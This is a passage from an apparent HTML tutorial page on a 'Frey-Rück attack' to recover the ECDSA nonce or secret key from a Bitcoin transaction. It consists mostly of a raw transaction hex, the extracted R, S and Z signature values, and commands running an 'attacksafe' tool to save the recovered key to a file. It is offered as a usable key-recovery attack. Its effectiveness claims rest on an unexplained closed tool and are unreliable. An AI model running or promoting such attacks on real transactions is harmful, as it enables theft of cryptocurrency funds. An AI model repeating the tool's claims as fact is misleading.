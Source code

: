 
<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-60-1024x252.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-1006"></figure>



<pre class="wp-block-code"><code>R = 0xcda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8
S = 0xab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad8428975
Z = 0x9d568564500c4b9911ccd4dbb3865e0c9129f2697e9a710f575c63f5f22753b1</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool frey_ruck_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-61-1024x310.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-1008"></figure>



<p>We launched this attack from&nbsp;<code>-tool frey_ruck_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>



<p>Now to see the successful result, open the file<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>
